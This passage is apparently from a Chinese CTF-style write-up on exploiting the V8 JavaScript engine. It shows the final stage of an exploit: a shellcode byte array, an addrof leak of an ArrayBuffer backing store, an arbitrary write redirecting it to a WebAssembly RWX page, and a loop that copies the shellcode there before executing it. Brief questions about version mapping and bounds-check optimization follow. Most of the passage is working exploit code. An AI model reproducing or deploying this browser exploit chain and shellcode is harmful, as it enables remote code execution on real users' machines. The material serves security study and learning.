 ```
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];


let buf_new = new ArrayBuffer(0x200);
let dataview = new DataView(buf_new);
let leak_buf = f2i(addrof(buf_new));
let fake_write = leak_buf + 0x20;//get backstore

abwrite(fake_write,wasm_rwx);
console.log("[*] fake_write  ====&gt; "+hex(fake_write));


for(var i=0;i&lt;shellcode.length;i++)
`{`
    dataview.setUint8(i,shellcode[i],true);
`}`
// %DebugPrint(buf_new);
// %SystemBreak();


f();
```



## 4 利用效果

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0104f17d069a3f9352.png)



## 5 问题

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="%E5%85%B3%E4%BA%8E%E9%A2%98%E7%9B%AE%EF%BC%9A"></a>关于题目：

如何找到v8 与 chrome的对应关系

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="%E5%85%B3%E4%BA%8E%E4%BC%98%E5%8C%96%EF%BC%9A"></a>关于优化：

调试的时候visit_check_bound 打印index_type 后来采用单步跟踪的方式

为什么length_type.Min()一定是最大值
